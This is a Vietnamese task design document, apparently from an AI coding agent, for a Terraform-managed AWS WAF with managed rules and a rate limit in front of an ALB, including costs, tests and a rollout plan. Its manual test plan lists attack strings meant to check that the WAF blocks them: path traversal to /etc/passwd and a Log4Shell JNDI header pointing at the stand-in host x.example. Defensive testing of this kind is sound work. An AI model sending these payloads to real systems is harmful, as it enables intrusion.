

# DBS-153 · WAF: managed rules và rate rule gắn ALB (chỉ bật tuần 6–8)

> **Status:** Draft · **Vai:** #5 Platform & Ops · **Cặp đôi review:** — (bỏ yêu cầu Dev khác review theo quyết định techlead, PR #175) · **Nhánh:** `infra/DBS-153-waf-alb` (cắt từ `origin/main` `957dcbf`) · **PR:** — · **Cập nhật:** 2026-11-14

## 1. Bối cảnh

- **Task trên board:** Task, Tuần 6, Demo P3, ưu tiên High, vai #5 Platform & Ops. **Expect:** «Lớp bảo vệ biên cho API với chi phí được kiểm soát.» **Thực trạng (board):** «Chưa có WAF. Kế hoạch chi phí: chỉ bật WAF tuần 6–8 rồi tắt.»
- **DoD (chép nguyên văn):**
  1. Web ACL với AWS managed rules (common, known bad inputs) và rule giới hạn tốc độ, gắn vào ALB bằng Terraform
  2. Thử: request có mẫu tấn công thường gặp bị chặn; request bình thường qua
  3. Ghi chi phí WAF/tuần và ngày tắt dự kiến
  4. PR đã merge vào main (CI xanh); Dev review; bảng «Đối chiếu test case» trong PR điền đủ
- **Phụ thuộc:** DBS-34 (ECS, service api, ALB): Done trên board **và** trong repo (`envs/dev/session/alb.tf`, `aws_lb.main`).
- **Đã có gì (đã chạy/đọc):**
  - `grep -ri waf infra/terraform` không có tài nguyên WAF. Chỉ có `infra/scripts/verify-clean.sh` kiểm `wafv2 list-web-acls --scope REGIONAL` sau khi xóa, và `cost-report.py` đã tách dòng WAF khỏi báo cáo chi phí (DBS-143).
  - Thiết kế đã chốt ở [docs/03 §12](../03_HIGH_LEVEL_ARCHITECTURE.md) (dòng «Biên»): managed rules + rate rule **1.000 yêu cầu/5 phút/IP**, chỉ tuần 6–8; **khi load test, IP máy chạy k6 được loại khỏi rate rule**. [threat-model](../security/threat-model.md) T18/B1; [ADR-11](../adr/0011-aws-managed-session-based.md) dự toán WAF ≈ 6 USD cho tuần 6–8 (web ACL 5 USD/tháng + 1 USD/rule/tháng + phí request). Rate limit của ứng dụng (DBS-89) là lớp thứ hai, fail-open khi Redis lỗi, nên WAF là chốt chặn theo IP ở biên.
  - Terraform: `envs/dev/session` là stack dựng/xóa theo phiên (RDS, Valkey, ALB, ECS); README nói WAF thuộc stack này. Không có thư mục `modules/` (README mô tả, chưa có). CI job `terraform` chạy `init/validate/test` ở ba thư mục cố định.
  - **Phiên AWS đang chạy của người khác** (2026-11-14 05:12 UTC: ALB `dbs-dev`, RDS, Valkey, service api và worker; `dev/session.tfstate` sửa lần cuối 12:25). Task này **không apply vào state đó** và không gắn gì vào ALB đó (xem Quyết định 3).
  - Backlog cùng chủ đề: **BL-037** (cần WAF gắn ALB; phần WAF do task này làm, phần tên miền/ACM công khai còn lại → sửa dòng, không xóa), **BL-161** mục (4) WAF (chỉ là mục trong danh sách, sửa chữ).
- **Baseline (2026-11-14, `origin/main` `957dcbf`):** loại hạ tầng: `terraform fmt -list` ở ba thư mục: không file nào lệch; `terraform validate` ở `envs/dev/session`: hợp lệ; `terraform test -parallelism=1` ở `envs/dev/session`: **66 đạt, 0 lỗi**. Backend không đổi nên không chạy lại bốn lệnh jest.
- **Ngoài phạm vi:** quy tắc SQL injection (`AWSManagedRulesSQLiRuleSet`, ngoài DoD; app dùng truy vấn tham số hóa, BL mới), log đầy đủ của WAF vào S3/CloudWatch Logs (tốn tiền, dùng sampled requests và metric), alarm WAF (BL mới), Bot Control và ATP (đắt), tên miền và chứng chỉ công khai (BL-037), gắn WAF vào `prod/session` (chưa có stack), chạy k6 vào WAF (DBS-166, BL-232; **bàn giao** cho #5: trước khi chạy k6 từ máy cùng region phải apply `session` với `-var 'waf_rate_limit_exempt_cidrs=["<IP k6>/32"]'`, vì IP đổi mỗi lần dựng và 120 RPS ≈ 36.000 request/5 phút sẽ bị chặn nếu quên; BL mới).
- **Câu hỏi mở và quyết định ở G1 (agent tự quyết, người dùng vắng):**
  1. **Vai trên board đúng** (#5, Terraform): không lệch `team.md`.
  2. **Module `infra/terraform/modules/waf`** (web ACL + IP set + association), stack `session` gọi nó. Lý do: (a) manual test cần WAF thật ở trước một ALB **mà không đụng phiên của người khác**; module cho phép dựng đúng mã đó với một ALB thử riêng; (b) `modules/` đã có trong thiết kế README. CI thêm `infra/terraform/modules/waf` vào vòng lặp init/validate/test.
  3. **Không gắn vào ALB `dbs-dev` đang chạy, không apply `session`**: state đó là của phiên người khác (BL-265 nói rõ việc dựng `session` chờ quyết định về quyền). Bằng chứng «gắn vào ALB bằng Terraform» = mã trong `session` (test tftest, `terraform plan -refresh=false -lock=false` trên bản sao state chỉ-đọc, không đọc secret của phiên đó) + WAF thật trên ALB thử cô lập (`dbs-dev-waf153`, state key `dev/waf-dbs153.tfstate`, giữ vài chục phút).
  4. **`waf_enabled` mặc định `true`** ở `session`: WAF sống và chết cùng phiên (destroy xóa luôn, `verify-clean.sh` đã kiểm). **Có thứ buộc phải tắt** (review #5): biến `waf_off_date` (mặc định `2026-11-26`) và khối `check "waf_off_date"` cảnh báo ở mọi `plan`/`apply` khi `waf_enabled = true` mà `plantimestamp()` đã qua ngày đó; tắt hẳn bằng `-var waf_enabled=false`. `check` chỉ cảnh báo, không chặn, nên không làm hỏng phiên cần WAF thêm; BL mới đổi mặc định thành `false` và xóa khối này sau ngày tắt. Chi phí tính theo giờ phiên (xem §3).
  5. **Ba rule, thứ tự**: rate (ưu tiên 10, chặn sớm, rẻ), `AWSManagedRulesCommonRuleSet` (20), `AWSManagedRulesKnownBadInputsRuleSet` (30). Hành động mặc định ACL = allow. Managed rule `override_action { none {} }` (giữ hành động của từng rule trong nhóm = block). Biến `managed_rules_count_only` đổi hai nhóm sang `count` để xử lý nhầm (false positive) mà không phải gỡ WAF.
  6. **Rate rule**: `limit = 1000`, `evaluation_window_sec = 300`, khóa theo IP, hành động `block` trả **429** (`custom_response`, cùng nghĩa với rate limit của ứng dụng, không lẫn với `403 FORBIDDEN` của RolesGuard; docs/03 §14 không tính 429 là lỗi). Biến `rate_limit` (mặc định 1000, hợp lệ 10..2.000.000.000 theo giới hạn WAF). Biến `rate_limit_exempt_cidrs` (IPv4 CIDR prefix `/8` tới `/32`, mặc định rỗng; WAF không nhận `/0` và `/0` cũng sẽ vô hiệu hóa chốt chặn theo IP mà R-1 dựa vào): IP trong danh sách không bị đếm (`scope_down_statement` = NOT IP set), để k6 chạy từ máy cố định theo docs/03.
  7. **Đo trên AWS thật bằng HTTP :80** của ALB thử (WAF xem request như nhau trên cổng 80 hay 443; ALB thử không cần chứng chỉ). Ghi rõ ở §8 là chưa thử qua HTTPS của `dbs-dev`.
  8. **Chi phí:** tính ở §3 từ giá niêm yết; số thật (Cost Explorer trễ 1 ngày) ghi vào backlog để điền.

## 2. Hành vi

| # | Điều kiện | Kết quả |
|---|---|---|
| H1 | `terraform apply` ở `session` (`waf_enabled = true`) | Tạo `dbs-dev-waf` (web ACL REGIONAL, mặc định allow), gắn vào `aws_lb.main`; output `waf_web_acl_name`. Có đủ ba rule ở trên; metric CloudWatch và sampled requests bật cho ACL và từng rule |
| H2 | Request thường (`GET /health/live`, `POST /v1/transfers` JSON tiếng Việt «Tien nha thang 11» hoặc có dấu, `Authorization: Bearer …`, `User-Agent` hợp lệ) | Qua WAF, tới ALB → target; ở ALB thử trả `200` |
| H3 | Mẫu tấn công thường gặp (lệnh đầy đủ ở §5): (a) XSS `q=` trong query (Common: `CrossSiteScripting_QUERYARGUMENTS`); (b) path traversal `file=../../etc/passwd` trong query, và `/../../etc/passwd` trong đường dẫn gửi bằng `curl --path-as-is` (curl mặc định tự bỏ `..` nên không dùng cờ này sẽ không còn mẫu tấn công) (Common: `GenericLFI_QUERYARGUMENTS`, `GenericLFI_URIPATH`); (c) Log4Shell `${jndi:ldap://x.example/a}` trong header (KnownBadInputs: `Log4JRCE_HEADER`); (d) thiếu `User-Agent` (`-H 'User-Agent:'`; curl luôn gửi UA nếu không bỏ tường minh) (Common: `NoUserAgent_HEADER`) | `403 Forbidden` do WAF (managed rules; thân HTML mặc định của ALB/WAF), **không tới ứng dụng**; sampled requests ghi `BLOCK` kèm tên rule |
| H4 | Một IP gửi quá `rate_limit` (1.000) yêu cầu trong cửa sổ 300 s | Từ lúc WAF đánh giá tới (trễ vài chục giây, theo tài liệu AWS), yêu cầu kế tiếp của IP đó bị `429` do WAF (không tới ứng dụng; gửi lại cùng `Idempotency-Key` sau đó không tạo trùng giao dịch) cho tới khi tốc độ trong cửa sổ giảm dưới giới hạn (≈ 300 s sau khi ngừng, cộng trễ), rồi lại `200`. Request của IP khác vẫn qua |
| H5 | `rate_limit_exempt_cidrs = ["<IP>/32"]` | Rate rule **không đếm** IP đó; vẫn bị managed rules chặn nếu có mẫu tấn công |
| H6 | `managed_rules_count_only = true` | Hai nhóm managed chuyển sang `count`: mẫu H3 qua (200), WAF chỉ đếm; rate rule vẫn `block` |
| H7 | `waf_enabled = false` | Không có web ACL, không có association (WAF tắt hẳn, 0 đồng); output `waf_web_acl_name = null` |
| H7b | `waf_enabled = true` và `plantimestamp()` ≥ `waf_off_date` | `plan`/`apply` vẫn chạy, kèm cảnh báo của `check "waf_off_date"` nhắc tắt WAF |
| H8 | Đầu vào sai | `rate_limit < 10` hoặc `> 2.000.000.000` bị `validation` từ chối; phần tử của `rate_limit_exempt_cidrs` không phải IPv4 CIDR (kể cả IPv6) hoặc có prefix ngoài `/8`–`/32` (gồm `0.0.0.0/0`) bị từ chối; `name` ngoài `^[a-zA-Z0-9-]{1,128}$` bị từ chối |

Giới hạn ghi rõ: Common có `SizeRestrictions_BODY` (chặn thân > 8 KB): API này chỉ nhận JSON nhỏ nên chấp nhận; nếu k6 hay Postman thật bị chặn nhầm thì bật `managed_rules_count_only` rồi mở case. WAF không thấy gì ở lưu lượng ALB → task (HTTP trong VPC, BL-037). Health check ALB → task không đi qua WAF.

## 3. Kiến trúc

- **Vị trí:** `infra/terraform/modules/waf/{main,variables,outputs,versions}.tf` (mới), `.terraform.lock.hcl` (mới, sinh bằng `terraform providers lock -platform=linux_amd64` cùng bản aws với session, vì CI dùng `-lockfile=readonly`) và `tests/waf.tftest.hcl`; `infra/terraform/envs/dev/session/waf.tf` (mới), biến ở `variables.tf`, output ở `outputs.tf`, `tests/waf.tftest.hcl` (mới); `.github/workflows/ci.yml` (thêm thư mục module vào vòng lặp). Vai: hạ tầng, không có code ứng dụng.
- **Interface của module:** biến `name` (string), `resource_arn` (ARN ALB), `rate_limit` (number, 1000), `rate_limit_exempt_cidrs` (list(string), `[]`), `managed_rules_count_only` (bool, `false`); output `web_acl_arn`, `web_acl_name`, `metric_names` (map rule → tên metric). Không biến, quyền IAM hay phụ thuộc mới của ứng dụng; provider `hashicorp/aws` cùng ràng buộc với `session`.
- **Dữ liệu:** không chạm DB, schema, event hay `ErrorCode`.
- **Sơ đồ:**

- **Chi phí** (giá niêm yết AWS WAF; số thật ghi ở §8 khi Cost Explorer có):

| Khoản | Đơn giá | Dùng | Cộng |
|---|---|---|---|
| Web ACL | 5 USD/tháng | 1 | 5 |
| Rule (managed rule group tính 1 rule; rate rule 1 rule) | 1 USD/rule/tháng | 3 | 3 |
| Request | 0,60 USD/triệu | dev: vài chục nghìn/tuần | < 0,05/tuần |
| **Bật 24/7** | 8 USD/tháng ≈ 0,011 USD/giờ | | **≈ 1,85 USD/tuần** |
| **Bật theo phiên** (dựng/xóa cùng session, ≈ 40–50 giờ/tuần theo ADR-11) | 0,011 USD/giờ | 45 giờ | **≈ 0,5 USD/tuần** |

  Tuần 6–8 (3 tuần): ≈ 1,5 USD (theo phiên) tới ≈ 5,6 USD (24/7), khớp dự toán ~6 USD của ADR-11. **Ngày tắt dự kiến: từ 2026-11-26 (đầu tuần 9)**; tuần 1 bắt đầu 2026-10-01 (ngày commit đầu), tuần 8 là 19–25/11, cần chốt lại với lịch môn. Từ ngày đó đặt `waf_enabled = false` (hoặc đổi mặc định, BL mới); `check "waf_off_date"` nhắc bằng cảnh báo. Hôm nay (2026-11-14) đã là tuần 7 nên WAF thực tế chỉ sống từ lúc merge tới ngày tắt (≲ 1,7 tuần, ≈ 3 USD nếu 24/7, ≈ 0,9 USD theo phiên); «3 tuần» là cận trên. Quên không tắt thì ≈ 8 USD/tháng.
- **Ranh giới transaction:** không áp dụng.
- **Thay đổi cấp hệ thống:** `infra/terraform/README.md` (mục WAF, biến, tắt), docs/03 (dòng «Biên» §12 và §13 chi phí: ghi số đo), `docs/security/threat-model.md` T18 (trạng thái), `docs/components/platform-infra/01-concept-brief.md`, ADR-11 (không đổi quyết định; ghi số ước tính theo phiên), BACKLOG (BL-037, BL-161, hàng mới).

## 4. Test cases tự động (`terraform test` với `mock_provider`, không cần AWS)

| ID | Truy vết | Lớp | Given · When · Then |
|---|---|---|---|
| TC-153-01 | DoD 1 | tftest module | Web ACL `scope = REGIONAL`, mặc định `allow`; đúng 3 rule, ưu tiên khác nhau; hai nhóm managed là `AWS` / `AWSManagedRulesCommonRuleSet` và `AWSManagedRulesKnownBadInputsRuleSet`, `override_action none` |
| TC-153-02 | DoD 1 | tftest module | Rate rule: `limit = 1000`, `evaluation_window_sec = 300`, `aggregate_key_type = IP`, hành động `block` với `custom_response` 429; ưu tiên thấp nhất (chạy trước) |
| TC-153-03 | DoD 1 | tftest module | Mọi rule và ACL có `cloudwatch_metrics_enabled` và `sampled_requests_enabled`; tên metric khác nhau |
| TC-153-04 | DoD 1 | tftest module | `aws_wafv2_web_acl_association.resource_arn` = `resource_arn` truyền vào |
| TC-153-05 | H5 | tftest module | `rate_limit_exempt_cidrs` rỗng: không có IP set, rate rule không có `scope_down_statement`. Có CIDR: một IP set IPV4 chứa đúng các CIDR và rate rule có `not` + `ip_set_reference_statement` |
| TC-153-06 | H6 | tftest module | `managed_rules_count_only = true`: hai nhóm có `override_action count`, rate rule vẫn `block`; mặc định `none` |
| TC-153-07 | H8 | tftest module | `rate_limit = 9`, `2000000001`, CIDR `::/0`, `0.0.0.0/0`, `10.0.0.0/7`, `10.0.0.1` (thiếu `/`), `name` có khoảng trắng: mỗi cái bị `expect_failures` |
| TC-153-08 | DoD 1 | tftest session | `waf_enabled` mặc định `true`: module `waf` có 1 phiên bản, `resource_arn` là ARN của `aws_lb.main`, output `waf_web_acl_name` = `dbs-dev-waf` |
| TC-153-09 | H7 | tftest session | `waf_enabled = false`: không có module, output `null` |
| TC-153-10 | an toàn chi phí | tftest session | `waf_rate_limit` và `waf_rate_limit_exempt_cidrs` được truyền xuống; mặc định 1000 và rỗng |
| TC-153-11 | tag | tftest module | `tags` không bị module ghi đè; ACL không thiếu tag của provider (`project`, `env`, `owner`) qua `default_tags` (kiểm bằng `plan` thật ở M-153-01) |
| TC-153-12 | quy trình | CI | `.github/workflows/ci.yml` có `infra/terraform/modules/waf` trong vòng lặp; thư mục có `.terraform.lock.hcl`; chạy đúng chuỗi CI (`init -backend=false -lockfile=readonly`, `validate`, `test`) ở máy cục bộ; `terraform fmt -check -recursive infra/terraform` sạch |
| TC-153-14 | H7b | tftest session | `waf_off_date = "2020-01-01"` với `waf_enabled = true`: `expect_failures = [check.waf_off_date]`; mặc định (ngày tương lai tại thời điểm viết) không có cảnh báo; `waf_enabled = false` không có cảnh báo dù quá ngày |
| TC-153-13 | DoD 3 | doc | Feature doc §3 có chi phí/tuần và ngày tắt; README và docs/03 trỏ về số này |
| (quy trình) | DoD 4 | — | PR merge, CI xanh, review: ngoài tầm agent (không merge); bảng đối chiếu điền ở PR |

Mock: `mock_provider` sinh ARN không hợp lệ nên test module dùng `override_resource` cho `aws_wafv2_web_acl.main` (ARN web ACL hợp lệ) và truyền `resource_arn` là ARN ALB hợp lệ; test session dùng cùng `override_resource` như `alarms.tftest.hcl`. TC-153-11: tftest với mock không thấy `tags_all` thật nên chỉ khẳng định module không đặt `tags` riêng; thẻ thật được kiểm ở M-153-01 (`aws wafv2 list-tags-for-resource`).

## 5. Test thủ công (AWS thật, profile `dbs-admin`, ap-southeast-1)

**Điều kiện:** `AWS_PROFILE=dbs-admin`; thư mục gốc thử ở scratchpad dùng module `waf` thật cùng ALB thử `dbs-dev-waf153` (listener HTTP 80 trả `fixed-response 200` JSON, SG `dbs-dev-alb` và subnet công khai lấy từ `base`), state key riêng `dev/waf-dbs153.tfstate`, `TF_DATA_DIR` riêng. Không đụng `dev/session.tfstate`, không đụng ALB `dbs-dev`. Dùng `curl -s -o /dev/null -w '%{http_code}'`. **Chi phí buổi thử** ≈ 0,05 USD/giờ (ALB ≈ 0,025 + 2 IPv4 công khai ≈ 0,01 + WAF ≈ 0,011 + LCU); trần giữ tài nguyên **≤ 60 phút**, quên xóa ≈ 1,2 USD/ngày. `rate_limit` của ALB thử đặt **100** để quan sát được trong vài phút (giá trị mặc định 1000 do tftest kiểm, vì cơ chế giống nhau).

| Bước | Việc làm | Kết quả mong đợi |
|---|---|---|
| M-153-01 | `terraform plan` rồi `apply` thư mục thử (module `waf` + ALB thử). `aws wafv2 get-web-acl`, `list-resources-for-web-acl`, `list-tags-for-resource` | Plan thêm 1 web ACL, 1 association, ALB, SG listener…; ACL có đúng 3 rule, gắn đúng ALB thử, tag `project/env/owner` |
| M-153-02 | Request thường: `GET /health/live`; `POST /v1/transfers` JSON `{"description":"Tiền nhà tháng 11"}` kèm `Authorization: Bearer <đã che>` | `200` cả hai (đường thành công) |
| M-153-03 | `curl -G --data-urlencode 'q=' $ALB/x`; `curl --path-as-is $ALB/../../etc/passwd`; `curl "$ALB/x?file=../../etc/passwd"`; `curl -H 'X-Api-Version: ${jndi:ldap://x.example/a}' $ALB/x`; `curl -H 'User-Agent:' $ALB/x` | `403` cả bốn; sampled requests của ACL liệt kê `BLOCK` với rule `CrossSiteScripting_QUERYARGUMENTS`, `GenericLFI_*`, `Log4JRCE_HEADER`, `NoUserAgent_HEADER` (hoặc rule tương đương nhóm) |
| M-153-04 | Với `rate_limit = 100`: gửi ≈ 500 request thường liên tiếp từ máy này (`xargs -P`), rồi gửi tiếp mỗi 10 giây | Sau ngưỡng và độ trễ của WAF, mã chuyển `200` → `429`; ghi số request tới lúc bị chặn. Rule `rate` xuất hiện ở sampled requests (đường bị từ chối/ca biên). Dừng gửi, rồi thăm dò mỗi 10 s: lại `200` sau ≈ 300 s + trễ, ghi thời điểm (đường hồi phục) |
| M-153-05 | Apply với `rate_limit_exempt_cidrs = ["<IP máy này>/32"]`; gửi lại ≈ 500 request | Không còn `429` (200 hết); mẫu XSS vẫn `403` (đường loại trừ không mở managed rules) |
| M-153-06 | Apply với `managed_rules_count_only = true`; gửi mẫu XSS | `200` (chỉ đếm); metric `CountedRequests` của rule tăng (đường chuyển/hồi phục khi nhầm) |
| M-153-06b | Apply lại `managed_rules_count_only = false`; gửi mẫu XSS | `403` trở lại (hồi phục hai chiều) |
| M-153-07 | `destroy` thư mục thử; `bash infra/scripts/verify-clean.sh`; xóa object state `dev/waf-dbs153.tfstate` khỏi bucket | `OK waf-regional`, không còn ALB `dbs-dev-waf153`. Script thoát **1** vì phiên của người khác (ALB `dbs-dev`, RDS, Valkey) còn chạy: ghi rõ, không phải lỗi của task |
| M-153-08 | `terraform plan -refresh=false -lock=false` stack `session` trên **bản sao chỉ-đọc** của state (`state pull` vào scratchpad, backend local; đủ `state_bucket`, `account_id`, `image_tag` đúng SHA đang chạy; refresh tắt để không gọi `GetSecretValue` vào phiên của người khác) | Chỉ thêm `module.waf[0]` (1 ACL + 1 association, IP set khi có CIDR); không sửa hay xóa tài nguyên session đang chạy nào do WAF |

## 6. Domain review (AI)

**Reviewer:** subagent general-purpose, model opus (mạnh nhất có sẵn), ngày 2026-11-14 · **Kết quả:** 13 phát hiện (blocking 0, should-fix 6, minor 7), verdict REVISE · [trả lời nguyên văn](screenshots/DBS-153/domain-review.md)

| # | Mức | Phát hiện | Xử lý |
|---|---|---|---|
| 1 | should-fix | Module thiếu `.terraform.lock.hcl`, CI `-lockfile=readonly` đỏ | đã sửa §3, TC-153-12 |
| 2 | should-fix | curl bỏ `..` và luôn gửi User-Agent: lệnh thử không ra mẫu tấn công | đã sửa H3, M-153-03 (`--path-as-is`, `-H 'User-Agent:'`, lệnh đầy đủ) |
| 3 | should-fix | `0.0.0.0/0` qua validation, WAF không nhận và vô hiệu hóa chốt chặn IP | đã sửa H8, TC-153-07 (prefix `/8`–`/32`) |
| 4 | should-fix | `plan` có refresh đọc secret của phiên người khác | đã sửa M-153-08 (`-refresh=false -lock=false`) |
| 5 | should-fix | Ngày tắt chỉ ghi, không có gì buộc | đã sửa QĐ 4, §3, TC-153-14: `waf_off_date` và `check` cảnh báo; BL đổi mặc định |
| 6 | should-fix | Rate rule thiếu đường hồi phục, 1.200 request chỉ vượt 20% | đã sửa M-153-04 (ALB thử `rate_limit = 100`, ≈ 500 request, thăm dò tới khi `200`) |
| 7 | minor | Thiếu bước apply lại `count_only = false` | đã sửa M-153-06b |
| 8 | minor | `verify-clean.sh` thoát 1 vì phiên khác; object state thử còn lại | đã sửa M-153-07 |
| 9 | minor | Thiếu chi phí và trần thời gian buổi thử | đã sửa §5 |
| 10 | minor | 403 HTML của WAF lệch nghĩa với 429 của ứng dụng | đã sửa QĐ 6, H4, TC-153-02 (`custom_response` 429) |
| 11 | minor | `mock_provider` sinh ARN không hợp lệ | đã sửa §4 (ghi `override_resource`) |
| 12 | minor | «Hết tuần 8» sai, tuần 8 là 19–25/11 | đã sửa §3 (từ 2026-11-26, đầu tuần 9) |
| 13 | minor | Miễn rate rule cho k6 chưa thành việc bàn giao | đã sửa §1 Ngoài phạm vi; BL mới (§8) |

**Quyết định ở G2 (agent tự quyết, người dùng vắng):** không còn câu hỏi blocking. Vòng 2 của review chỉ chạy lại nếu có thay đổi ngoài các sửa trên; các sửa đều là làm rõ lệnh và giới hạn, không đổi phạm vi, nên agent tự kiểm lại từng finding đã đối chiếu vào bảng trên. Status → Design approved.

## 7. Kế hoạch triển khai

Kế hoạch `terraform plan` dự kiến ở `envs/dev/session` (`waf_enabled = true`, không có exempt CIDR): **2 to add, 0 to change, 0 to destroy** (`module.waf[0].aws_wafv2_web_acl.main`, `module.waf[0].aws_wafv2_web_acl_association.main`); thêm `module.waf[0].aws_wafv2_ip_set.rate_limit_exempt[0]` khi `waf_rate_limit_exempt_cidrs` khác rỗng. Không đổi tài nguyên hiện có nào khác của session.

| Bước | File | Test viết trước / đối chiếu | Lệnh chứng minh |
|---|---|---|---|
| 1 | `infra/terraform/modules/waf/{versions,variables,main,outputs}.tf`, `.terraform.lock.hcl`, `tests/waf.tftest.hcl` | TC-153-01..07, TC-153-11 (10 run `tftest` với `mock_provider`) | `terraform -chdir=infra/terraform/modules/waf init -backend=false -lockfile=readonly && terraform -chdir=infra/terraform/modules/waf validate && terraform -chdir=infra/terraform/modules/waf test -parallelism=1` |
| 2 | `infra/terraform/envs/dev/session/{waf,variables,outputs}.tf`, `tests/waf.tftest.hcl` | TC-153-08..10, TC-153-14 (4 run `tftest` với `mock_provider`, gồm `check.waf_off_date`) | `terraform -chdir=infra/terraform/envs/dev/session init -backend=false -lockfile=readonly && terraform -chdir=infra/terraform/envs/dev/session validate && terraform -chdir=infra/terraform/envs/dev/session test -parallelism=1` |
| 3 | `.github/workflows/ci.yml` | TC-153-12 (thêm `infra/terraform/modules/waf` vào vòng lặp `terraform`) | `terraform fmt -check -recursive -diff infra/terraform` |
| 4 | `infra/terraform/README.md`, `docs/03_HIGH_LEVEL_ARCHITECTURE.md`, `docs/security/threat-model.md`, `docs/components/platform-infra/01-concept-brief.md`, `docs/features/README.md`, `docs/BACKLOG.md` | TC-153-13 (chi phí/tuần, ngày tắt `2026-11-26`, BL-037, BL-161, BL-290..293) | `node .agents/skills/dbs-delivering-task/scripts/check-doc-links.mjs` |
| 5 | Manual AWS thật (phối hợp sau khi hoàn tất phần offline) | M-153-01..08 (ALB thử cô lập `dbs-dev-waf153` + `plan -refresh=false -lock=false` trên bản sao state `session`) | Ghi kết quả ở §8 kèm ảnh/log và `verify-clean.sh` |

Rủi ro và cách lùi: WAF nằm trong module độc lập gắn qua `aws_wafv2_web_acl_association`; lùi nhanh không gỡ ALB bằng `-var waf_enabled=false` (hủy ACL và association, 0 USD) hoặc chuyển sang count-only bằng `-var waf_managed_rules_count_only=true`. Không apply vào state `dev/session.tfstate` đang chạy của người khác. **Quyết định ở G3 (agent tự duyệt, người dùng vắng):** kế hoạch khớp §2–§5; mọi mục DoD và ngoài phạm vi đều có bước hoặc BL (`BL-290..293`).
